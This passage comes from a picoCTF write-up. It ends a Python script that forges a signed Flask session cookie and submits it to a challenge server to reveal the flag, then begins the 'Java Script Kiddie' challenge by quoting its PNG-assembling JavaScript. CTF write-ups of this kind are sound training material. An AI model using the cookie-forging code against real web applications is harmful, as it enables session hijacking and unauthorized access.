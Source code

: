 ```python
    serializer=TaggedJSONSerializer(),
    signer=TimestampSigner,
    signer_kwargs={
        'key_derivation' : 'hmac',
        'digest_method' : hashlib.sha1
    }
).dumps(session)

print("New cookie calculated: {}".format(new_cookie))

cookie_dict = {"session": new_cookie}
r = requests.get(base_url+"/display", cookies=cookie_dict)
print(r.text)
```

Flag: **picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}**

# Java Script Kiddie ![p](https://img.shields.io/badge/Points-400-success) ![c](https://img.shields.io/badge/Web-purple)
> The image link appears broken... https://jupiter.challenges.picoctf.org/problem/17205 or http://jupiter.challenges.picoctf.org:17205

If we visit the website we only have one input field and one button, that seem to create an image if we provide some text. Let's now take a look to the Javascript source code and try to understand something: 
```javascript
	var bytes = [];
	$.get("bytes", function(resp) {
		bytes = Array.from(resp.split(" "), x => Number(x));
	});

	function assemble_png(u_in){
		var LEN = 16;
		var key = "0000000000000000";
		var shifter;
		if(u_in.length == LEN){
			key = u_in;
		}
		var result = [];
		for(var i = 0; i < LEN; i++){
			shifter = key.charCodeAt(i) - 48;
			for(var j = 0; j < (bytes.length / LEN); j ++){
				result[(j * LEN) + i] = bytes[(((j + shifter) * LEN) % bytes.length) + i]
			}
		}
		while(result[result.length-1] == 0){
			result = result.slice(0,result.length-1);
		}
		document.getElementById("Area").src = "data:image/png;base64," + btoa(String.fromCharCode.apply(null, new Uint8Array(result)));
		return false;
		}
```
